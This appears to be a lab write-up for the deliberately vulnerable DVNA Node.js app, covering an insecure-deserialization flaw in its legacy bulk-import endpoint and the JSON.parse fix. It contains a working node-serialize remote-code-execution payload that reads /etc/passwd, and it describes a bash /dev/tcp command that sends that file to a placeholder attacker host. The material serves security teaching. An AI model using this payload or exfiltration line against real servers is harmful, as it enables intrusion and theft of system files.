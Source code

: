 # Insecure Deserialization

The `Legacy Bulk Import` feature at http://127.0.0.1:9090/app/bulkproducts?legacy=true does not securely deserialize the data thus allowing remote code execution.

![jse1](/resources/jse1.png)

To execute code we need to provide a serialized object to the server. The object (as shown below) in this case would be a function that uses the `child_process` library to invoke `bash -c -- \"cat /etc/passwd > /dev/tcp/attacker-ip/nc-port\"`. The function is made into an [Immediately Invoked function Expression (IIFE)](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression) by adding `()` to the end of the function

The following input will trigger the vulnerability

```
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

which is the serialized version of

```
var y = {
 rce : function(){
 require('child_process').exec('id;cat /etc/passwd', function(error, stdout, stderr) { console.log(stdout) });
 }(),
}
```

![jse2](/resources/jse2.png)

**Vulnerable Code snippet**

*core/appHandler.js*
```         
...
module.exports.bulkProductsLegacy = function (req,res){
	// TODO: Deprecate this soon
	if(req.files.products){
		var products = serialize.unserialize(req.files.products.data.toString('utf8'))
...
```

**Solution**

Since the required feature is to essentially parse a JSON, it can be parsed securely using `JSON.parse` instead.

*core/appHandler.js*
```
...
module.exports.bulkProductsLegacy = function (req,res){
	// TODO: Deprecate this soon
	if(req.files.products){
		var products = JSON.parse(req.files.products.data.toString('utf8'))
...
```

**Fixes**

Implemented in the following files

- *core/appHandler.js*

The fix has been implemented in this [commit](https://github.com/appsecco/dvna/commit/624a4ee88b3af804271d183f2921448851ddbfff)

**Recommendation**

- Use secure and recommended ways to implement application features
- Ensure that potentially vulnerable legacy features are't accessible

**Reference**

- <https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization>
- <https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/>
